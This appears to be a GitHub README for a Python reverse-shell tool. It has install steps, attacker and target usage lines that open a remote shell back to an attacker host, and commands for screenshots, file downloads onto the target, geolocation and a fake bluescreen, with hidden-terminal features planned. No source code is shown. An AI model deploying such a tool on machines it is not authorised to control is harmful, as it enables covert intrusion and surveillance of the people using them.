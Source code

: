 # Reverse Shell

Reverse shell implementation using Python.

<p align="center">
  <img src="./screenshot/reverse_shell_01.gif" with="600" height="339">
</p>

## Installation

**NOTE**: Python 3.6 or higher is required.

```bash
# clone the repo
$ git clone https://github.com/jcs090218/reverse_shell

# change the working directory to reverse shell
$ cd reverse_shell

# install python3 and python3-pip if not exist

# install the requirements
$ pip3 install -r requirements.txt
```

## Usage

### 1. Listen for target

On attacker machine, run the `attacker.py` script.

```
python3 attacker.py [port]
```

### 2. Execute reverse shell

On target machine, run the `target.py` script.
```
python3 target.py [host] [port]
```

## Commands

```sh
# Halt
!dc            Disconnect the target from this host, target will start reconnection process.
!shutdown      Shutdown both `attacher` and `target`.

# Listen
!screenshot    Screenshot the target machine.

# Cheat
!bluescreen    Fake bluescreen. (Windows Only)
!dl            Download file by URL onto the target machine.

# Information
!wan_ip        Get the WAN IP.
!lan_ip        Get the LAN IP.
!geo_info      Get the geolocation on the target device.
```

## Features

### Implemented

* Auto reconnection
* Downloader (Download file to target machine)
* Screenshot
* Full control on the target machine.

### Not Implemented

* Packet encoder/decoder.

## TODOs
* Bluescreen (Fake)
* Hidden IP
* Hidden terminal
* Multi-target listening
